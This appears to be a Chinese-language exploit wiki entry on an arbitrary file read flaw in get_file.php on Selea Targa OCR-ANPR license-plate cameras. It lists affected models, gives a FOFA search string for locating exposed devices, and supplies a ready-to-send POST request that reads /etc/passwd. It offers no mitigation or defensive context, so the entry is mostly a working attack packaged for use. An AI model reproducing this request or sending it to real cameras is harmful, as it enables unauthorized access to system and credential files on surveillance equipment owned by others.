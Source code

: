 # Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

> [!NOTE]
>
> Selea Selea Targa IP OCR-ANPR Camera iZero
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 512
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 504
>
> Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 805
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 750
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB

## FOFA

> [!NOTE]
>
> "selea_httpd"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/sel-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送如下请求包

```
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=pq&files_list=/etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/sel-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/sel-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
